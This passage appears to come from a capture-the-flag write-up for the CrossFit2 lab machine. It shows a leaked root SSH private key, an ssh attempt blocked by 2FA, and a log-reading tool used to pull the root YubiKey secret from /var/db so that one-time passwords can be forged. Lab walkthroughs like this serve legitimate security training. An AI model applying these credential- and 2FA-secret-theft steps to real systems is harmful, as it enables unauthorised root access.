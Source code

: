 ```php
kYpvLiTBX7Zx9okfEh7004g/DBp7KmJ0YW3cR2u77KmdTOprEwtrxJWc5ZyWfI2/rv+piV
InfLTLV0YHv3d2oo8TjUl4kSe2FSzhzFPvNh6RVWvvtZ96lEK3OvMpiC+QKRA2azc8QMqY
HyLF7Y65y6a9YwH+Z6GOtB+PjezsbjO/k+GbkvjClXT6FWYzIuV+DuT153D/HXxJKjxybh
iJHdkEyyQPvNH8wEyXXSsVPl/qZ+4OJ0mrrUif81SwxiHWP0CR7YCje9CzmsHzizadhvOZ
gtXsUUlooZSGboFRSdxElER3ztydWt2sLPDZVuFUAp6ZeMtmgo3q7HCpUsHNGtuWSO6QAA
AMEA6INodzwbSJ+6kitWyKhOVpX8XDbTd2PQjOnq6BS/vFI+fFhAbMH/6MVZdMrB6d7cRH
BwaBNcoH0pdem0K/Ti+f6fU5uu5OGOb+dcE2dCdJwMe5U/nt74guVOgHTGvKmVQpGhneZm
y2ppHWty+6QimFeeSoV6y58Je31QUU1d4Y1m+Uh/Q5ERC9Zs1jsMmuqcNnva2/jJ487vhm
chwoJ9VPaSxM5y7PJaA9NwwhML+1DwxJT799fTcfOpXYRAAKiiAAAAwQD5vSp5ztEPVvt1
cvxqg7LX7uLOX/1NL3aGEmZGevoOp3D1ZXbMorDljV2e73UxDJbhCdv7pbYSMwcwL4Rnhp
aTdLtEoTLMFJN/rHhyBdQ2j54uztoTVguYb1tC/uQZvptX/1DJRtqLVYe6hT6vIJuk/fi8
tktL/yvaCuG0vLdOO52RjK5Ysqu64G2w+bXnD5t1LrWJRBK2PmJf+406c6USo4rIdrwvSW
jYrMCCMoAzo75PnKiz5fw0ltXCGy5Y6PMAAADBAPhXwJlRY9yRLUhxg4GkVdGfEA5pDI1S
JxxCXG8yYYAmxI9iODO2xBFR1of1BkgfhyoF6/no8zIj1UdqlM3RDjUuWJYwWvSZGXewr+
OTehyqAgK88eFS44OHFUJBBLB33Q71hhvf8CjTMHN3T+x1jEzMvEtw8s0bCXRSj378fxhq
/K8k9yVXUuG8ivLI3ZTDD46thrjxnn9D47DqDLXxCR837fsifgjv5kQTGaHl0+MRa5GlRK
fg/OEuYUYu9LJ/cwAAABJyb290QGNyb3NzZml0Mi5odGIBAgMEBQYH
-----END OPENSSH PRIVATE KEY-----
```

Trying to use this key to ssh in fails however. Checking the verbose output we see the authentication had partial success, which means 2FA is enabled.

```php
$ ssh -i root -v root@crossfit.htb
OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1k  25 Mar 2021
debug1: Reading configuration data /etc/ssh/ssh_config
...[snip]...
Authenticated with partial success.
debug1: Authentications that can continue: password
debug1: Next authentication method: password
root@crossfit.htb's password:
```

Looking for the 2FA method in the `/var` folder we find an interesting `yubikey` folder under `db`.

```php
crossfit2$ ls /var/db/
acpi                       ldap                       rpki-client
dhclient.leases.vmx0       libc.tags                  xkb
host.random                locate.database            xmlcatalog
installed.SHA256           ns                         yubikey
kernel.SHA256              ntpd.drift
kvm_bsd.db                 pkg
```

With the default naming scheme for yubikey files we can retrieve all the files we need to generate our own OTP's.

```php
crossfit2$ log /var/db/yubikey/root.key  

* LogReader v0.1

[*] Log size: 33

6bf9a26475388ce998988b67eaa2ea87
```
